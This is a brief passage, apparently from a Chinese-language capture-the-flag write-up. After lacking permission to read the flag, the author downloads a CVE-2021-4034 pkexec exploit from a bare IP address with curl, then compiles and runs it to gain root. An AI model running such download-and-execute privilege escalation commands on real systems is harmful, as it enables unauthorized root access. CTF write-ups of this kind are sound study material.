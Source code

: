 但是读flag的时候发现权限不够

![image-20220217201051154](images/20.png)

这里用到了最新爆出的pkexec提权漏洞:https://github.com/arthepsy/CVE-2021-4034

```
curl http://47.93.248.221/cve-2021-4034-poc.c > /tmp/snakin.c
gcc snakin.c -o snakin
./snakin
```

![image-20220217204821857](images/21.png)

![image-20220217204833252](images/22.png)
